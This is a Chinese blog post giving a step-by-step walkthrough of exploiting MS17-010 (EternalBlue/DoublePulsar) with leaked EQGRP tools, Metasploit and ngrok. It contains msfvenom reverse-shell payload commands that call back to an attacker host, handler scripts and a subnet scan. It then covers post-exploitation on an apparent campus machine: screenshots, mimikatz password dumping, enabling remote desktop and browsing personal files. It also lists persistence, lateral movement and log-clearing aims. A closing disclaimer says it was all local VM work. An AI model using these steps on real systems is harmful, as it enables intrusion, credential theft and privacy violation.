 ```yaml
---
title: MS17 010 复现
date: 2017-05-13 16:49:06
tags: Metasploit
---
```


[影响范围看这里][影响范围看这里]，据说利用漏洞来勒索的病毒都有了： [NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索][NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]

针对校内用户的解决办法：

> 关闭445 3389 等端口
  利用路由器（起到隔离作用就行），尽量不要网线直连电脑

不行，这张图我可以笑一天（233~

电子屏幕: 我只是一块显示通知的电子屏幕，我做错了什么QAQ
![电子屏幕][电子屏幕]

<!--more-->

## Requirement
1. [ngrok][ngrok]
3. [PentestBox With Metasploit][PentestBox With Metasploit] OR [Kali Linux][Kali Linux]
4. [Python2.6.6][Python2.6.6] + [pywin32][pywin32]
5. [EQGRP_Lost_in_Translation][EQGRP_Lost_in_Translation]
 
吐槽1：Win下执行0Day，却要反弹Shell到虚拟机的Kali Linux？？？
吐槽2：Kali Linux的虚拟机镜像远不如直接安装ISO稳定
吐槽3：**路由器IP（192.168.1.x）生成的Payload不能在内网（127.27.x.x）反弹Shell**

所以一会要用到ngrok，或者租个便宜服务器反弹Shell，你喜欢就好~

事实证明**PentestBox**要方便一点，记得下载含**Metasploit**的版本

<br>
## Hack This
### 配置PentestBox
删除`PentestBox\base\python`（2.7.3），然后安装2.6.6版本的Python 和 Pywin32

在`PentestBox\config` 的aliases文件里添加这么一行`python2="%pentestbox_ROOT%\base\python2\python.exe" $*`，打开PentestBox输入`python2 --version`出现版本信息代表命名成功
![python2][python2]

解压`EQGRP_Lost_in_Translation-master`，修改windows目录下的fb文件，注释掉26，27，28，72行
![26-28][26-28]
<br>
![72][72]
<br>

### 生成DLL Payload
如果直接在内网的话是可以把下面`VPS_IP`替换成自己的，但是不建议这么做，万一入侵的是**蜜罐+没清除记录+尝试风险操作+长时间在线**，很容易翻车。拿ngrok转发一下本地的端口比较保险。

但是如果内网机器不能访问外网，只能用内网IP生成Payload

x86:

    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x86_tcp.dll
x64:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x64_tcp.dll

### Msfconsole
x86.rb

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false #后台运行
    set LHOST 192.168.1.245 # LHOST
    set LPORT 4444 #监听x86 Payload的端口
    exploit -j -z

x64.rb

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false
    set LHOST 192.168.1.245
    set LPORT 4445 #监听x64 Payload的端口
    exploit -j -z

开启ngrok转发
![ngrok-port][ngrok-port]
<br>
开两个窗口开始监听

    msfconsole -r x86.rb
    
    msfconsole -r x64.rb
    
![msfconsole][msfconsole]

### 确认内网目标
下载[MS17扫描模块][MS17扫描模块]的rb文件，放到`PentestBox\bin\metasploit-framework\modules\auxiliary\scanner\smb`里面

scan.rb

    use auxiliary/scanner/smb/smb_ms_17_010 #新添加的模块
    set THREADS 16
    set RHOSTS 172.27.10.1-254 #目标网段
    exploit

开始扫描目标网段
    
    msfconsole -r scan.rb

确认目标``172.27.10.21``
![target][target]

<br>
### Attack！  

    python2 fb.py
填好目标和本地IP，转发选择no，使用**Eternalblue**入侵模块
![ip][ip]
一路回车到这个地方，选择平台和攻击方式**1) FB**
![arch-fb][arch-fb]
继续回车，出现这个代表入侵成功
![Eternalblue][Eternalblue]
<br>
再使用**Doublepulsar**模块来反弹Shell，根据平台填入我们刚才生成的DLL Payload

**ProcessName一定要填写目标主机正在运行的进程名，否则会使目标主机自动关机或注销， 一般填svchost.exe**
![Doublepulsar][Doublepulsar]
<br>
一路回车后就应该能看到ngrok有转发的效果和msf成功反弹的Shell了
![ngrok-reverse][ngrok-reverse]
<br>
![Shell][Shell]
<br>

## Shell仅仅只是开始
如果有入侵经验的人一定知道我想表达什么
> 目前权限是否为SYSTEM，如果不是，该怎么提权？提权会不会引起注意？
  目标主机装有杀毒软件的时候怎么Bypass UAC拿到当前用户密码？
  要是目标主机突然关机了该如何进行下一次渗透？亦或者留下隐藏后门进行持续性控制？
  端口转发该用什么工具？使用过程是否灵活？
  拿下一台服务器权限后怎么进一步扩大战果？内网漫游怎么尽快获取域控的最高权限以便拿下整个内网？
  如何有效收集你想要的信息？ 
  如何尽可能清除入侵记录？
  。。。。。。

运气不错，目标主机（实验室的电脑）没有360，`get system`就拿到了管理员权限，看看在干嘛

    screenshot -q 100 -p F:\\Hacker\\PentestBox\\output\\test.jpeg
![screenshot][screenshot]
<br>
![screenshot2][screenshot2]
<br>
这个时间点（12:49 PM）应该不在电脑前，估计是忘记锁屏了
利用mimikatz神器拿到用户密码

    load mimikatz
    mimikatz_command -f sekurlsa::searchPasswords
![password][password]
<br>
然后`run getgui -e`开启远程桌面连接，直接连上去了

然后打开硬盘看看能收集到什么有用的信息
![班级][班级]
<br>
![上网账号][上网账号]
<br>
![sad][sad]
<br>
后台居然还挂着个百度盘。。。
![百度盘][百度盘]
<br>
![excited][excited]
<br>
**我们不开车！
我们不开车！
我们不开车！**


**----------------严肃的分割线----------------**
手机安装了百度盘客户端的，可能不小心（被）设置了手机自动备份，那么手机里面的相册，音乐，甚至是通讯录都会自动保存到百度盘。。。
![个人信息][个人信息]
<br>

## END?
每次都打这么多命令很烦的，对于我这种懒人来说，有一条法则永远通用：
        
> 如果某些事情，甚至可以说是任何事情，哪怕只需要花费他超过90 秒的时间，那他会写脚本来自动处理那些事情

嗯，我知道你们看得懂，批量扫描内网主机的任务就交给你们写了（Python可以操作CMD，多进程，加油~
![lan][lan]
<br><br>

![内网漫游][内网漫游]
<br>
**以上全部的入侵内容都是我编的，入侵操作仅在本地虚拟机进行，切勿违法使用**

    最近沉迷Powershell提权（Bypass UAC，后门持续控制）和BadUSB无法自拔。后续文章更新等放假再说吧
**Shell仅仅只是开始。。。**

<br><br>
> **这个打赏二维码好像有什么不对**
**支付宝** 
![支付宝][支付宝]
**微信**  
![微信][微信]
[支付宝]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/alipay/shakalaka_ailipay.gif?imageView2/1/w/200/h/200
[微信]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/wechat/patapon_wechat.gif?imageView2/1/w/200/h/200

[影响范围看这里]: https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
[NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]: http://www.leiphone.com/news/201705/iGXUMArn1cP1livY.html
[电子屏幕]: https://of4jd0bcc.qnssl.com/smb/%E7%94%B5%E5%AD%90%E5%B1%8F%E5%B9%95.png
[ngrok]: https://github.com/inconshreveable/ngrok
[Metasploit]: https://github.com/rapid7/metasploit-framework
[Python2.6.6]: https://www.python.org/download/releases/2.6.6/
[pywin32]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/
[PentestBox With Metasploit]: https://pentestbox.org/
[Kali Linux]: https://www.kali.org/
[EQGRP_Lost_in_Translation]: https://github.com/x0rz/EQGRP_Lost_in_Translation
[python2]: https://of4jd0bcc.qnssl.com/smb/python2.png
[26-28]: https://of4jd0bcc.qnssl.com/smb/26-28.png
[72]: https://of4jd0bcc.qnssl.com/smb/72.png
[ngrok]: https://of4jd0bcc.qnssl.com/smb/ngrok.png
[msfconsole]: https://of4jd0bcc.qnssl.com/smb/msfconsole.png
[MS17扫描模块]: https://github.com/RiskSense-Ops/MS17-010/tree/master/scanners
[target]: https://of4jd0bcc.qnssl.com/smb/target.png
[ip]: https://of4jd0bcc.qnssl.com/smb/ip.png
[arch-fb]: https://of4jd0bcc.qnssl.com/smb/arch-fb.png
[Eternalblue]: https://of4jd0bcc.qnssl.com/smb/Eternalblue.png
[Doublepulsar]: https://of4jd0bcc.qnssl.com/smb/Doublepulsar.png
[ngrok-reverse]: https://of4jd0bcc.qnssl.com/smb/ngrok-reverse.png
[Shell]: https://of4jd0bcc.qnssl.com/smb/Shell.png
[screenshot]: https://of4jd0bcc.qnssl.com/smb/screenshot.jpg
[screenshot2]: https://of4jd0bcc.qnssl.com/smb/screenshot2.jpg
[班级]: https://of4jd0bcc.qnssl.com/smb/%E7%8F%AD%E7%BA%A7.png
[上网账号]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%8A%E7%BD%91%E8%B4%A6%E5%8F%B7.png
[sad]: https://of4jd0bcc.qnssl.com/smb/sad.png?imageView2/1/w/200/h/200
https://of4jd0bcc.qnssl.com/smb/%E7%99%BE%E5%BA%A6%E7%9B%98.png
[excited]: https://of4jd0bcc.qnssl.com/smb/excited2.png
[百度盘]: https://of4jd0bcc.qnssl.com/smb/%E7%99%BE%E5%BA%A6%E7%9B%98.png
[个人信息]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF.png
[内网漫游]: https://of4jd0bcc.qnssl.com/smb/%E5%86%85%E7%BD%91%E6%BC%AB%E6%B8%B8.png
[lan]: https://of4jd0bcc.qnssl.com/smb/lan.png